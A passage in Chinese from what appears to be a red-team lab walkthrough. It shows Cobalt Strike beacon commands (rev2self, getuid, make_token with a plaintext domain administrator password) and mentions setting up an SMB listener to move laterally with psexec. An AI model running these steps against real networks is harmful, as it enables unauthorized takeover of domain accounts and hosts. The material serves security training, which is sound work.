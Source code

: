 回到控制目标主机的初始用户账户下，使用`rev2self` 移除令牌

```
 beacon> rev2self 
```

查看当前的用户： 

```
beacon> getuid
```

![](img/25.png)

通过前面获取到的 DC 的 DE1AY\administrator 账户信息，生成新的凭证

```cmd
beacon> make_token DE1AY\administrator 1qaz@WSX
```

![](img/26.png)

创建新的监听实现中转，便于通过命名管道 psexec 通过 SMB Listener 横向过去。![](img/27.png)
